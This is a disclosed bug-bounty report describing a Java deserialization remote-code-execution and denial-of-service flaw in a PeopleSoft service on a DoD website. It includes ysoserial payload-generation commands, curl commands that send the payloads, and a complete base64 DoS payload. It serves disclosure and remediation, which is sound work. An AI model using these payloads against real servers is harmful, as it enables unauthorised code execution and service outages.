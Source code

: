 # Remote Code Execution (RCE) in a DoD website

## Report Details
- **Report ID**: 329400
- **URL**: https://hackerone.com/reports/329400
- **State**: Closed
- **Severity**: critical
- **Submitted**: 2018-03-24T03:06:58.421Z
- **Disclosed**: 2019-10-08T18:50:10.020Z

## Reporter
- **Username**: joaomatosf
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: deptofdefense

## Vulnerability Information
SUMMARY:
====================

This report describes a vulnerability similar to that described in my other reports #329376, #329397, #329399

The DoD **`https://████/psc/EXPROD/`** Web System uses the Oracle PeopleSoft platform which is vulnerable to Remote Code Execution (RCE) and Denial of Service Attacks (DoS) over a Java Object Deserialization (CWE-502) in the “monitor” service. Thus an attacker can generate and send malicious java objects of special types to your system and achieve arbitrary effects (such as RCE os DoS) during their deserialization (the objects are deserialized by readObject() method without any type of validation). This is related to CVE-2017-10366 [1].

PROOF OF CONCEPT
====================

For PoC I sent a special serialized java object in order to force the vulnerable server to perform a DNS Lookup for a domain controlled by me (dod_test.jexboss.info). In this way, if the code is executed successfully by the DoD server I will receive a DNS query from DoD and see it in the logs of my BIND daemon (the vulnerable DoD server will perform a local DNS query for dod_test.jexboss.info and the local DNS will try to query the authoritative nameserver for the jexboss.info domain (ns1.jexboss.info), which is mine).

For more details about this payload used, see [2].

**Attached is a video detailing the PoC.**

**Generating the payload:** for generate the payload I used the tool ysoserial.
```
$ git clone https://github.com/frohoff/ysoserial.git
$ cd ysoserial
$ mvn clean package –DskipTests
$ cd target
$ java -jar ysoserial-0.0.6-SNAPSHOT-all.jar URLDNS http://dod_test.jexboss.info > payload
```

**Sending the payload to a vulnerable server:**
`curl https://████/psc/EXPROD/ --data-binary`@payload`-k`

After sending the payload to the DoD server, the code was successfully executed and I received the DNS query on my BIND server, as can be seen in the log record below.
	
**BIND logs:**
```
23-Mar-2018 18:42:26.332 queries: info: client ████#8059: query: dod_test.jexboss.info IN A -ED (10.0.1.202)
```

**Denial Of Service (DoS)**

This vulnerability also allows denial of service attacks, but I can not perform this test because it puts the availability of your service at risk. If you want to validate this, use the following PoC:

**Generating payload for Denial of Service (DoS)[3]:**
```
echo -n "rO0ABXVyABNbTGphdmEubGFuZy5PYmplY3Q7kM5YnxBzKWwCAAB4cH////d1cQB+AAB////3dXEAfgAAf///93VxAH4AAH////d1cQB+AAB////3dXEAfgAAf///93VxAH4AAH////d1cQB+AAB////3" | base64 -d > payload_dos
```

**Sending:**
`curl https://████/psc/EXPROD/ --data-binary`@payload_dos`-k`

This will make your service stop immediately and show the following error in the logs:
```Exception in thread "Thread-2" java.lang.OutOfMemoryError: Java heap space```

MITIGATION
====================

The best way to mitigate deserialization vulnerabilities is by not deserializing data received from users. In this particular case, any requests from the internet to the path **/monitor** should be rejected/blocked! 
Also, it is important to note that updating libraries used by attackers as Gadgets (such as commonsCollections) is not enough to protect against deserialization attacks, since new gadgets are discovered and published frequently. So, blocking the monitor service is best suited for this case!

REFERENCES:
====================
[1] - CVE-2017-10366. Link: https://nvd.nist.gov/vuln/detail/CVE-2017-10366
[2] - Triggering a DNS lookup using Java Deserialization. Link: https://blog.paranoidsoftware.com/triggering-a-dns-lookup-using-java-deserialization/
[3] - Java Deserialization DoS – payloads. Link: http://topolik-at-work.blogspot.com.br/2016/04/java-deserialization-dos-payloads.html

Best Regards, 
João Filho Matos Figueiredo, @joaomatosf

## Impact

This vulnerability allows:
1) Remote Code Execution (**RCE**)
2) Denial of Service (DoS)

## Attachments
No attachments
